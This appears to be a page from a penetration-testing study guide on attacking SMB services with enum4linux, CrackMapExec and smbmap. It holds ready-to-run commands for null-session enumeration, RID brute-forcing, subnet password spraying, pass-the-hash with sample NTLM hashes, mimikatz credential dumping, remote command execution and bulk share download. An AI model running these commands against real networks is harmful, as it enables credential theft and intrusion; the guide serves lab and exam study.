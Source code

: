 Apparently the rpcclient version in OffSec VM does not work well with creating null sessions. A downgrade to samba-4.5.15 is required: [https://forums.offensive-security.com/showthread.php?12943-Found-solution-to-enum4linux-rpcclient-problem-NT\_STATUS\_INVALID\_PARAMETER\&highlight=NT\_STATUS\_INVALID\_PARAMETER](https://forums.offensive-security.com/showthread.php?12943-Found-solution-to-enum4linux-rpcclient-problem-NT\_STATUS\_INVALID\_PARAMETER\&highlight=NT\_STATUS\_INVALID\_PARAMETER) Place the export commands into a script and source it before using rpcclient to use the downgraded version, or place it in bashrc. NOTE, once downgraded, pth-winexe doesn't seem to work.

**enum4linux**

Wrapper around smb programs like `rpcclient` to automate enumerating an SMB server. Produces tons of results when a null session is successful. NOTE: Make sure to downgrade rpcclient before using.

```
enum4linux -a $ip
enum4linux -u 'guest' -p '' -a $ip
```

**CrackMapExec**

Works perfectly, list shares and permissions, enum users, disks, code execute and run modules like mimikatz. Hashes work. Also will tell you exact version of Windows

```
crackmapexec -u 'guest' -p '' --shares $ip
crackmapexec -u 'guest' -p '' --rid-brute 4000 $ip
crackmapexec -u 'guest' -p '' --users $ip
crackmapexec smb 192.168.1.0/24 -u Administrator -p P@ssw0rd
crackmapexec smb 192.168.1.0/24 -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B
crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B -M mimikatz 192.168.1.0/24
crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B -x whoami $ip
crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B --exec-method smbexec -x whoami $ip# reliable pth code execution
```

Also will tell you exact version of windows:

![](https://guide.offsecnewbie.com/\~gitbook/image?url=https%3A%2F%2F1508177803-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-LSy0aAo8OKT4I-Ahftv%252F-LtC6WJ\_9AZYlYnAktZI%252F-LtC8QYXbOrdewzYezqn%252Fimage.png%3Falt%3Dmedia%26token%3Da0a53930-bd20-463b-85b9-e81b5b680432\&width=768\&dpr=4\&quality=100\&sign=a274d9c\&sv=1)

**smbmap**

Works well for listing and downloading files, and listing shares and permissions. Hashes work. Code execution doesn't work.

```
smbmap -u '' -p '' -H $ip # similar to crackmapexec --shares
smbmap -u guest -p '' -H $ip
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H $ip
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H $ip -r # list top level dir
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H $ip -R # list everything recursively
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H $ip -s wwwroot -R -A '.*' # download everything recursively in the wwwroot share to /usr/share/smbmap. great when smbclient doesnt work
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H $ip -x whoami # no work
```
